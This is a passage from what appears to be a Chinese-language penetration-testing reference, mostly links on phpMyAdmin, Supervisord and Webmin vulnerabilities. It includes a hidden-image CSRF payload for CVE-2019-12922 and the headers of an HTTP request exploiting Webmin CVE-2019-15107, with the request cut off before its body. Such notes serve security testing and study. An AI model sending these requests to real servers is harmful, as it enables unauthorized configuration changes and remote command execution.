 **4.8.x 本地文件包含漏洞利用**
- 文章
    - [phpMyAdmin 4.8.x 本地文件包含漏洞利用 | Vulnspy Blog](http://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-LFI-Exploit/) 可以通过这个线上靶场实验,不过 docker 镜像可能有点问题,mysql 进程起不起来,我的解决方式是直接卸了重装 mysql-server,而且他默认的 apt 源无法访问,还要换一下 apt 源

**phpmyadmin4.8.1 后台 getshell**
- 文章
    - [phpmyadmin4.8.1后台getshell](https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog)

**CVE-2019-12922 & 4.9.0.1 CSRF**
- POC | Payload | exp

    - `<img src=" http://server/phpmyadmin/setup/index.php?page=servers&mode=remove&id=1" style="display:none;" />`
    - https://www.hedysx.com/bug/2398.html

---

## Supervisord
**测试链接**
- `http://<ip>:9001`

**CVE-2017-11610 Supervisord 远程命令执行漏洞**
- 文章
    - [Supervisord远程命令执行漏洞 (CVE-2017-11610) ](https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html)
    - [Supervisord 远程命令执行漏洞 (CVE-2017-11610) ](https://vulhub.org/#/environments/supervisor/CVE-2017-11610/)

---

## Webmin
**CVE-2019-15107**
- 影响范围
    - 1.890 through 1.920

- 详情
    - 在其找回密码页面中,存在一处无需权限的命令注入漏洞,通过这个漏洞攻击者即可以执行任意系统命令。

- 文章
    - [Webmin(CVE-2019-15107) 远程代码执行漏洞之 backdoor 探究](https://zhuanlan.zhihu.com/p/79287037)

- POC | Payload | exp
    - [vulhub/webmin/CVE-2019-15107/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/webmin/CVE-2019-15107/README.zh-cn.md)
    ```
    POST /password_change.cgi HTTP/1.1
    Host: your-ip:10000
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Cookie: redirect=1; testing=1; sid=x; sessiontest=1
    Referer: https://your-ip:10000/session_login.cgi
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 60
